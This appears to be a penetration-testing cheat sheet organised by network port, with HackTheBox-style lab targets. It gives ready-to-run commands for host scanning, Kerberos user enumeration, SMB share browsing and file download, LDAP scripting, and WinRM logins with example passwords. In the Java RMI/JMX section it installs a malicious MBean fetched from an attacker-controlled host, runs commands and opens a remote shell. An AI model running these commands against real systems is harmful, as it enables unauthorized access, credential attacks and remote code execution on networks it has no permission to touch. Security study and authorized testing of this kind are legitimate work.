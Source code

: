 ## Initial scan  
Discover the hosts on the network : `nmap -Pn -p- -v 192.168.110.1-255`  
Scan all ports on a host and execute nmap scripts : `nmap -A -p- -v 192.168.110.55`  
  
## Port 88 - Kerberos 
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     

## Port 135 - MSRPC  
TODO  
  

## Port 445 - SMB
**List SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152"`  
    
**Browse SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`    
    
**Download SMB files:**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`   
    
  
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
    
## Ports 5985,5986 - WinRM  
Using Evil-WinRM:    
`gem install evil-winrm`  
`evil-winrm -u Administrator -p 's3cure_PaSsw0rd'  -i <IP>/<Domain>`  
  
Using Powershell:  
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`  
  
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`

## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  
